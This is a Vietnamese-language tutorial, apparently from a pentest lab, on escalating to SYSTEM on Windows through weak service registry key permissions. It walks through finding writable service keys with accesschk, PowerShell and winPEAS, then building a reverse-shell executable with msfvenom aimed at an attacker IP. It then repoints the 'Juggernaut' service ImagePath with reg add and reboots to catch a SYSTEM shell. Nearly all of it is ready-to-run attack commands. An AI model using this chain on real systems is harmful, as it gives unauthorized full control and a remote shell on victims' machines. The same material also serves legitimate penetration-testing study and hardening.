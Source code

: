 # Liệt kê các Weak Registry Key Permissions

Khi liệt kê các quyền của khóa đăng ký yếu, mục tiêu của tôi là tìm các quyền yếu trên subkeys trong HKLM\SYSTEM\CurrentControlSet\Services registry key. Đây là registry key được liên kết với tất cả các dịch vụ có trên hệ thống

# Săn lùng các quyền của khóa đăng ký yếu: accesschk.exe(Thuộc bộ công cụ Sysinterals)

Link tải: https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite
sau khi tải xuống ta có 2 bản là bản 64 và 32 bit

Để biết máy nạn nhân sử dụng hệ điều hành nào ta dùng câu lệnh:
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

các quyền của người dùng nên quan tâm như :

- Người dùng cụ thể mà tôi hiện đang đăng nhập với tên (%USERNAME%)
- Authenticated Users
- Everyone
- BUILTIN\Users
- NT AUTHORITY\INTERACTIVE

Khi sử dụng accesschk, trước tiên tôi muốn kiểm tra người dùng hiện tại của mình vì người dùng hiện tại của tôi có thể sẽ thuộc hầu hết nếu không phải tất cả các nhóm đó theo mặc định. Điều này có thể giúp loại bỏ công việc phỏng đoán khi cố gắng tìm xem quyền của nhóm nào đã được đặt cho khóa đăng ký mà tôi đang truy vấn.

```
accesschk64.exe "%USERNAME%" -kvuqsw hklm\System\CurrentControlSet\services -accepteula
```

Kết quả cho thấy người dùng hiện tại của tôi có ALL_ACCESS đối với khóa đăng ký. Điều này có nghĩa là các quyền trên khóa đăng ký được đặt thành Kiểm soát hoàn toàn cho người dùng này cụ thể hoặc một trong các nhóm mà người dùng đó thuộc về.

Ngoài ra, chúng ta có thể truy vấn bất kỳ nhóm nào bằng cách thay thế giá trị trong dấu ngoặc kép từ dấu phẩy trên:

```
accesschk64.exe "Everyone" -kqswvu hklm\System\CurrentControlSet\services -accepteula

accesschk64.exe "Authenticated Users" -kqswvu hklm\System\CurrentControlSet\services -accepteula

accesschk64.exe "BUILTIN\Users" -kqswvu hklm\System\CurrentControlSet\services -accepteula

accesschk64.exe "NT AUTHORITY\INTERACTIVE" -kqswvu hklm\System\CurrentControlSet\services -accepteula

```

# Săn lùng các quyền khóa đăng ký yếu: PowerShell + Linux-Fu

Để tìm kiếm các quyền của khóa đăng ký dịch vụ yếu là sử dụng PowerShell để trích xuất thông tin từ tất cả các khóa con trong khóa đăng ký HKLM\SYSTEM\CurrentControlSet\Services bằng câu lệnh:

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\* | Format-List | Out-File -FilePath C:\temp\service_keys.txt
```

Sau đó tao download file về. Vì tệp này rất lớn nên tôi sẽ cần thực hiện một số Linux-fu để cắt giảm đầu ra xuống chỉ còn những thông tin thú vị để tôi có thể phát hiện ra ngoại lệ của mình dễ dàng hơn.

```
cat service_keys.txt | grep -i "Path\|Access\|BUILTIN\\\Users\|Everyone\|INTERACTIVE\|Authenticated Users" | grep -v "ReadKey" | grep -B 1 -i "Authenticated Users|\BUILTIN\\\Users\|Everyone\|INTERACTIVE\|FullControl\|Modify\|Write"
```

Chúng ta có thể kiểm chứng trên máy nạn nhân sau khi tìm được bằng câu lệnh

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\Juggernaut | Format-List
```

# Săn lùng các quyền của khóa đăng ký yếu: winPEAS.exe

Có lẽ cách dễ nhất để tìm kiếm các quyền khóa đăng ký dịch vụ yếu là sử dụng tập lệnh liệt kê leo thang đặc quyền cuối cùng: winPEAS.exe
Tải bản sao winPEASx64.exe xuống nạn nhân.

Sau khi thực thi winPEAS, tôi sẽ tìm thấy mọi khóa đăng ký dịch vụ bị định cấu hình sai trong phần Thông tin dịch vụ .

Sau khi đã tìm được khóa ta bằng đầu khai thác

Liệt kê khóa đăng ký dịch vụ yếu mà tôi tìm thấy

Sau khi tìm thấy một khóa đăng ký dịch vụ thú vị có quyền yếu, tôi cần thu thập thông tin về dịch vụ và tệp thực thi mà nó trỏ tới.
Chúng ta có thể liệt kê dịch vụ trực tiếp bằng lệnh cmd.exe hoặc PowerShell.
Sử dụng cmd.exe:

```
reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\Juggernaut"
```

Sử dụng PowerShell:

```
Get-Item -Path Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\Juggernaut
```

Ta có thể thấy rằng “ImagePath” trỏ đến C:\Program Files\Juggernaut\Juggernaut.exe , đây là dịch vụ thực thi được chạy khi dịch vụ được khởi động.
Chúng ta cũng có thể thấy dịch vụ đó thực thi dưới dạng LocalSystem (SYSTEM) và có giá trị bắt đầu là 2, có nghĩa là “Tự động khởi động”.
Nếu tôi cố gắng liệt kê các quyền trên thư mục C:\Program Files\Juggernaut hoặc tệp Juggernaut.exe, tôi có thể sẽ thấy rằng tôi không có quyền thay thế tệp nhị phân bằng tệp độc hại.

```
icacls "C:\Program Files\Juggernaut\Juggernaut.exe"
icacls "C:\Program Files\Juggernaut"
```

Từ kết quả đầu ra, ta có thể thấy rằng nhóm được liệt kê duy nhất mà người dùng hiện tại của chúng ta thuộc về là nhóm BUILTIN\Users, không có (F), (M) hoặc (W) bên cạnh. Điều này có nghĩa là tôi không thể giả mạo tệp từ ImagePath gốc.

Vì tôi có quyền sửa đổi khóa đăng ký nên tôi có thể thay đổi ImagePath để trỏ đến tệp mà tôi có quyền kiểm soát.

Do dịch vụ này tự động khởi động nên tôi sẽ cần kích hoạt một sự kiện để khởi động lại dịch vụ hoặc cố gắng dừng rồi khởi động lại. Thật may mắn cho tôi, trước đó tôi đã thấy rằng người dùng chuẩn của tôi có SeShutdownPrivilege, nghĩa là tôi có thể khởi động lại hệ thống để buộc dịch vụ khởi động lại.

Khai thác khóa đăng ký dịch vụ yếu mà tôi tìm thấy

Tạo một tệp thực thi độc hại

Để khai thác điều này, tất cả những gì chúng ta cần làm là tạo một tệp thực thi độc hại, chuyển nó cho nạn nhân, chỉnh sửa ImagePath của khóa đăng ký, khởi động lại dịch vụ và sau đó chúng ta sẽ nhận được shell HỆ THỐNG. Vì vậy, hãy bắt đầu bằng việc tạo ra tệp thực thi của chúng ta.
Trong ví dụ này, tôi sẽ sử dụng msfvenom để tạo tệp thực thi độc hại của mình.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f exe -o pwnt.exe
```

Khi tệp thực thi đã sẵn sàng hoạt động, tôi cần chuyển nó sang máy nạn nhân. Vì chia sẻ vẫn đang mở nên hãy sử dụng nó.

Khai thác Khóa đăng ký dịch vụ yếu để lấy SYSTEM Shell

Có tệp thực thi độc hại trên máy chủ nạn nhân, tôi sẵn sàng thực hiện cuộc tấn công của mình và nâng cấp lên trình bao SYSYEM.
Điều đầu tiên chúng ta cần làm là thay đổi ImagePath trên khóa đăng ký dịch vụ Juggernaut để trỏ đến tệp thực thi độc hại của chúng ta. Chúng ta có thể làm điều này bằng lệnh sau:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Juggernaut" /v ImagePath /t REG_EXPAND_SZ /d "C:\temp\pwnt.exe" /f
```

Sau khi sửa đổi thành công ImagePath để trỏ đến tệp thực thi độc hại của tôi, tôi cần quay lại máy tấn công của mình và thiết lập trình nghe netcat trên cổng 443.
Với mọi thứ đã sẵn sàng, việc còn lại chỉ là khởi động lại máy.

```
shutdown /r /t 0
```

Máy khởi động lại và lớp vỏ ban đầu của tôi bị cắt ra; tuy nhiên, sau khoảng 20 giây, shell HỆ THỐNG sẽ xuất hiện trên trình nghe của tôi!
